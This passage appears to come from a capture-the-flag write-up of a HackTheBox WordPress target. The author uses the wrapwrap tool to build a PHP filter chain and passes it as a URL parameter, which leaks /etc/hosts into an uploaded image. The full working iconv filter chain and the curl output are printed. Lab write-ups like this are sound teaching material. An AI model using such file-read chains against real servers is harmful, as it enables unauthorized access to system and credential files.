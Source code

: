 The last parameter is a length to read before putting the suffix, but since there’s no suffix, it ignores that as well.

I’ll pass that chain as the `url` parameter and send again:

![image-20250131065212064](/img/image-20250131065212064.png)

Now that file has the `hosts` file:

```

oxdf@hacky$ curl http://blog.bigbang.htb/wp-content/uploads/2025/01/1-7.png -o-
GIF89a127.0.0.1 localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.3      bf9a078

```

It starts with the “GIF89a” which I can ignore.

I’m also a little suspicious of that hostname, which seems short for a Docker container. I would have expected 12 characters, and it’s seven. I think the last six characters (five missing in hostname plus trailing newline) might have been lost somehow in the filtering. To test this, I’ll re-run `wrapwrap` with a longer prefix:

```

oxdf@hacky$ python wrapwrap.py /etc/hosts "GIF89a0xdf" "" 1000
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=2619).
oxdf@hacky$ cat chain.txt 
php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/hosts

```
